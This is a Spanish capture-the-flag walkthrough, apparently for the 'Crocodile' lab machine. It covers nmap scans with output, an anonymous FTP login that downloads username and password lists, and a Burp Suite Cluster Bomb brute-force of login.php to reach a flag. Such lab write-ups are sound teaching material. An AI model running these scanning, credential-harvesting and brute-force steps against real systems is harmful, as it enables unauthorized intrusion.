 # Crocodile

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.233.227

PING 10.129.233.227 (10.129.233.227) 56(84) bytes of data.
64 bytes from 10.129.233.227: icmp_seq=1 ttl=63 time=165 ms

--- 10.129.233.227 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 164.643/164.643/164.643/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.233.227 -oG openPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 21,80 -sCV 10.129.233.227 -oN targeted

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix
```

| Puerto | Servicio | Versión             |
| ------ | -------- | ------------------- |
| 21     | ftp      | vsftpd 3.0.3        |
| 80     | http     | Apache httpd 2.4.41 |

🗹 Conectarse al servicio **ftp** con el usuario **anonymous** y descargar los archivos que contienen una lista de usuarios y otras de contraseñas:

```shell
ftp ftp://anonymous:@10.129.233.227

Connected to 10.129.233.227.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> dir
229 Entering Extended Passive Mode (|||44863|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||43903|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |*******************************************************************************************************************************************|    33      528.30 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.18 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||47781|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |*******************************************************************************************************************************************|    62      796.66 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.35 KiB/s)
```

🗹 Verificar si existe una página de `login.php`.

🗹 Interceptar la petición `POST /login.php` con **Burpsuite**. Enviar la petición al intruder. Realizar un ataque de tipo **Cluster Bomb** usando las listas descargas del servidor. Verificar los resultados del ataque buscando en el status code o length para dar con los datos correctos.

🗹 Ingresar el usuario y contraseña encontrados en la página `login.php`.
## Flag

La flag se encuentra en el dashboard.
